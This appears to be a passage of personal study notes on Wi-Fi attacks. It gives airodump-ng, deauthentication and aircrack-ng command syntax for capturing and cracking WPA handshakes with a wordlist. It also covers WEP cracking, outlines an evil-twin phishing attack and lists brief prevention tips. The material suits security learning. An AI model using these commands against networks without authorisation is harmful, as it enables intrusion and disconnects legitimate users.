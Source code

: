 #### Sniffing to the network
- We listen to specific channel of the target.
	- example: channel 4
```shell
airodump-ng (interface) -channel (channel) -w (filename)
```
![[Pasted image 20230829100953.png]]

- [ ]  DEAUTH
- On another terminal we do deauthentication attack.
- Syntax:
```shell
airplay-ng -0 (size) -a (Mac_of_target) (interface)
#-0 means how many times deauth is sent
#-a is the attack target
```
![[Pasted image 20230829101418.png]]
- [ ] Capturing Handshake
![[Pasted image 20230829101548.png]]
- After we got the handshake we need to crack it and get the password, to do this we use a tool called "Aircrack-ng"
```shell
sudo apt install aircrack-ng
```
- [ ] We need worklist
- Example for worklist is rockyou.txt
![[Pasted image 20230829101834.png]]

- [ ] Cracking 
- syntax
```shell
aircrack-ng (cap_file) -w (wordlist)
```
- [ ] Prevention way
1. Using WPA3 which is a newer protocol is your best bet 
against such an attack.
2. To mitigate against de-authentication attacks
3. use an ethernet connection if possible.
4. use a strong passphrase (not a password) to minimize the attackers chances of getting it
	a. Example: my home wifi password is something like: 
	“Helloworldthisismypassword”
	b. This will be very hard to crack it wordlist.
## 3. WEP attack 
- Same step with Handshake but here we will bruteforce an encryption key and also we don't capture handshake we only listen for WEP wi-fi for some minute, and we will crack it with aircrack-ng. 
![[Pasted image 20230831125747.png]]![[Pasted image 20230831125732.png]]
![[Pasted image 20230831125801.png]]
![[Pasted image 20230831125820.png]]
![[Pasted image 20230831125830.png]]
- [ ] Prevention 
	- [ ] Don't use it
## 4. Evil-twin Attack
- Includes 
	- Deauthentication
	- Fake AP and 
	- phishing.
- [ ] The way it work is:
	- Attacker will clone one of the wifi he going to attack with making it open wifi
	- Then it will initiate deauth on real wifi, so users will be forced to be on the fake one.